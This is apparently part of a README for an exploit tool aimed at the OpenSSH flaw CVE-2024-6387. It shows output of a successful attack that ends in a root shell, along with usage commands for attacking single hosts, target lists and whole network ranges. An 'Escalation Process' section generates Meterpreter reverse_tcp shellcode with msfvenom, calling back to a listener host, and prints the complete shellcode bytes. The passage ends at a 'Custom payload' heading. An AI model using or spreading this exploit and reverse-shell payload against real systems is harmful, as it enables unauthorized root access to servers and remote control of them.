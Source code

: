 ```bash
Received KEX_INIT (1024 bytes)
send_packet: Resource temporarily unavailable
send_packet: Resource temporarily unavailable
send_packet: Resource temporarily unavailable
send_packet: Resource temporarily unavailable
.....
Exploitation successful..!

~# whoami && id
root
uid=0(root) gid=0(root) groups=0(root) 
```

### Exporting (csv,txt,json)
```bash
$ python3 CVE-2024-6387.py -s 192.168.56.101 -p 22 -o json -f result.json
```

### Multiple targets
```bash
$ python3 CVE-2024-6387.py -s targets.txt -p 22 -o json -f result.json
```

### Adding timeout 
```bash
$ python3 CVE-2024-6387.py -s 192.168.56.101 -p 22 -t 10 -o json -f result.json
```
### Network ranges
```bash
$ python3 CVE-2024-6387.py -s 192.168.56.101/24 -p 22 -t 5 -o json -f result.json
```
### Custom port 
```bash
$ python3 CVE-2024-6387.py -s 192.168.56.101 -p 2244 -t 5 -o json -f result.json
```
# Escalation Process

## Getting Reverse shell 
 
```bash 
# Generating a shellcode 
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=9999 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of c file: 574 bytes

unsigned char buf[] =
"\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
"\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
"\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
"\x27\x0f\xc0\xa8\x38\x64\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
"\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
"\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
"\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
"\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
"\x78\xed\xff\xe6";
```
### Custom payload